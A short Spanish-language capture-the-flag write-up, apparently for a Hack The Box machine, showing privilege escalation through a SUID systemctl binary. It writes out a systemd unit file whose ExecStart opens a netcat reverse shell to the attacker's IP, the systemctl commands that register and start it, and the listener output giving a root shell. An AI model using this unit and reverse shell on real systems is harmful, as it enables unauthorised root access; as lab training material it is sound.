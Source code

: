 Nos reporta que podemos ejecutar como SUID el binario /bin/systemctl , vamos a buscar como aprovecharnos de esto: [Link](https://www.notion.so/78786df7899a840ec43c5ddecb6a4740)

1º Creamos el archivo root.service

```bash
❯ cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=oneshot
User=root
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.198 443'

[Install]
WantedBy=multi-user.target
```

2º Nos creamos una nueva carpeta en la raiz de pepper

```bash
pepper@jarvis:~/privesc$ pwd
/home/pepper/privesc
pepper@jarvis:~/privesc$ ls 
root.service
```

3º Ejecutamos los siguientes comandos

```bash
pepper@jarvis:~/privesc$ systemctl link /home/pepper/privesc/root.service 
pepper@jarvis:~/privesc$ systemctl enable --now /home/pepper/privesc/root.service
pepper@jarvis:~/privesc$ systemctl start root
pepper@jarvis:~/privesc$ 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54418
whoami
root
cat /root/root.txt
d41d8cd98f00b204e9800998------
```
